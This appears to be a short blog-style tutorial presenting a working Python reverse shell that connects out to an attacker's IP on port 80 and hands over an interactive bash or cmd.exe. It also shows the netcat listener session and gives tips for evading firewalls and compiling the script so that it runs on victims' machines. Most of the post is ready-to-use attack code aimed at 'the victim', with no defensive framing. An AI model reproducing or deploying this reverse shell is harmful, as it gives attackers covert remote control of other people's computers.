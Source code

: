 # Python Multi-Platform Reverse Shell
30.06.2020, 23:34 - Author: Dorian V.


This is an easy yet powerfull Reverseshell written in Python. With this Shell you can go through the victims Firewall since the connection is 
going from the inside to the outsite.


### Tested on Python 3.6 under Kali Linux

```python
#!/usr/bin/python
import socket, subprocess, os, sys

# build connection
soc = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
soc.connect(("192.168.1.186", 80))

# Mac OSX, Unix, Linux or Win with Cygwin
if sys.platform != "win32":
    os.dup2(soc.fileno(), 0)
    os.dup2(soc.fileno(), 1)
    os.dup2(soc.fileno(), 2)
    # Windows with Cygwin - run cmd.exe
    if sys.platform == "cygwin":
        proc = subprocess.call(["C:\Windows\System32\cmd.exe"])
    # OSX, Unix, Linux - run bash
    else:
        proc = subprocess.call(["/bin/bash", "-i"])
# Windows 
else:
    data = soc.recv(1024)
    cmd = subprocess.Popen(data, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
    STDOUT, STDERR = cmd.communicate()
    soc.send(STDOUT)
    soc.send(STDERR)
```

<br>
For the victim to be able to properly connect with us, we need to launch a Server-Service like Netcat on our machine:
<br>
<br>

```
root@kali:~# nc -l -p 80
bash: no job control in this shell
bash-3.2$ whoami
dorian
bash-3.2$ id
uid=501(dorian) gid=20(dorian)
groups=20(staff), 501(access_bpf), 12(everyone), 61(localaccounts), 79(_appserverusr), 80(admin), 81(_appserveradm), 98(_lpadmin), 701(com.apple.sharepoint.group.1), 33(_appstore), 100(_lpoperator), 204(_developer), 395(com.apple.access_ftp), 398(com.apple.access_screensharing), 399(com.apple.access_ssh)
```

<br>
In this example -l stands for listen and -p 80 for port 80. At this point it is worth mentioning to use standart ports like 80 for HTTP which usually are not getting blocked by the Firewall.


Of course not everybody has Python already installed. For this case there are Compiler for Python like *py2exe*(Win), *cx_Freeze*(Cross-Plattform), *py2app*(OSX), or *Nuitka*(Cross-Plattform).

<br>
<br>
